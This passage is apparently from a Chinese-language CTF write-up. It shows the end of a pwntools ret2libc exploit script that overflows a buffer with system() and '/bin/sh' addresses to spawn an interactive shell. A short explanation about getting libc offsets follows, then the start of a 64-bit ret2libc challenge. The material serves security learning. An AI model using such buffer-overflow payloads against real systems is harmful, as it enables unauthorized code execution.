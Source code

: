 ```
binsh_addr = base_addr + binsh_offset

io.recvuntil(b"Hello, there is a ez libc test!!!input:")
io.sendline(b'a'*20+p32(system_addr)+p32(1)+p32(binsh_addr))

io.interactive()
```

![](./images/image-126.png)

本题是给出了libc.so文件就可以直接从里面提取，如果没有的话需要使用LibcSearcher来进行搜索

## 神奇的strlen

checksec查看，题目提供了libcso文件

![](./images/image-127.png)

查看IDA伪代码，应该是ret2libc的64位put类型题目
